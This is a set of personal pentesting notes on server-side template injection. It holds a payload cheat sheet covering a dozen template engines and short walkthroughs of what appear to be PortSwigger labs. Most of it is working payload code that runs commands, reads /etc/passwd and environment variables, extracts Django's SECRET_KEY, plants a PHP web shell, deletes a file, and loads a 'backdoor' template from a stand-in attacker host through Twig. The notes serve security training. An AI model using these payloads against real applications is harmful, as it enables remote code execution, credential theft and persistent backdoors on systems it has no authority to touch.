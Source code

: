 ![[Pasted image 20240112131652.png]]
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
Use the intruder to test payloads
check errors and move forward, search for exploits, etc.
```
Polyglot:
${{<%[%'"}}%\

FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }

(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}

Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}

Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>

Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}

Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}

Mojolicious (Perl):
<%= perl code %>
<% perl code %>

Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}

Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

Razor (.Net):
@(1+2)
@{// C# code}
```
ERB
```
<%= system('cat /etc/passwd') %>
```

---------- lab stuff
##### # Basic server-side template injection (code context)
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
Tornado (Python)
```
{% import foobar %} = Error
{% import os %}

{% import os %}
{{os.system('whoami')}}
```


##### # Server-side template injection using documentation
${} = freemarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> 
{ ex("id") }
```

##### Server-side template injection in an unknown language with a documented exploit
Experiment by injecting a fuzz string containing tem![[Pasted image 20240112131649.png]]plate syntax from various different template languages, such as `${{<%[%'"}}%\`, into the `message` parameter. Notice that when you submit invalid syntax, an error message is shown in the output. This identifies that the website is using Handlebars.
https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html
```
wrtz{{#with "s" as |string|}} 
	{{#with "e"}} 
		{{#with split as |conslist|}} 
			{{this.pop}} 
			{{this.push (lookup string.sub "constructor")}} 
			{{this.pop}} 
				{{#with string.split as |codelist|}} 
				{{this.pop}} 
				{{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}} 
				{{this.pop}} 
				{{#each conslist}} 
					{{#with (string.sub.apply 0 codelist)}} 
						{{this}} 
					{{/with}} 
				{{/each}} 
			{{/with}} 
		{{/with}} 
	{{/with}} 
{{/with}}
```
 URL encode it and paste it in ?message=

##### Server-side template injection with information disclosure via user-supplied objects
1. Log in and edit one of the product description templates.
2. Change one of the template expressions to something invalid, such as a fuzz string `${{<%[%'"}}%\`, and save the template. The error message in the output hints that the Django framework is being used.
3. Study the Django documentation and notice that the built-in template tag `debug` can be called to display debugging information.
4. In the template, remove your invalid syntax and enter the following statement to invoke the `debug` built-in:
5. `{% debug %}`
6. Save the template. The output will contain a list of objects and properties to which you have access from within this template. Crucially, notice that you can access the `settings` object.
7. Study the `settings` object in the Django documentation and notice that it contains a `SECRET_KEY` property, which has dangerous security implications if known to an attacker.
8. In the template, remove the `{% debug %}` statement and enter the expression `{{settings.SECRET_KEY}}`
9. Save the template to output the framework's secret key.
10. Click the "Submit solution" button and submit the secret key to solve the lab.
